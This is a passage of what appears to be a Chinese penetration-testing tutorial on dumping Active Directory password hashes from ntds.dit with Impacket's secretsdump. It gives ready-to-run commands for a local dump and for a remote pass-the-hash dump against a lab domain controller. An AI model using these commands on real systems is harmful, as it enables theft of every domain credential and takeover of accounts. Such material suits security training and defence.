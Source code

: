 #### [NDTS Hash](#toc_ndts-hash)

##### [Impacket](#toc_impacket)

我们可以使用impacket工具包中的secretsdump来解析ntds.dit文件并导出散列：

`./secretsdump.py -system /root/system.hive -ntds /root/ntds.dit LOCAL`

[![image.png](assets/1698894155-b70702c42a190d6f2b5fd9027559b500.png)](https://storage.tttang.com/media/attachment/2022/09/30/4f2d314a-f515-4e32-ad20-48804d3f3c3c.png)

impacket还可以直接通过用户名和散列值进行验证，从远程域控制器中读取ntds.dit并转储域散列值：

`./secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:41945356c1b2adde08c00d0e48515b7e -just-dc hacke.testlab/administrator@192.168.188.2`

[![image.png](assets/1698894155-34149bce3f4cdfd25a898c6da0b3b782.png)](https://storage.tttang.com/media/attachment/2022/09/30/894f88f1-e898-4bfa-a0bb-e868663e8d98.png)
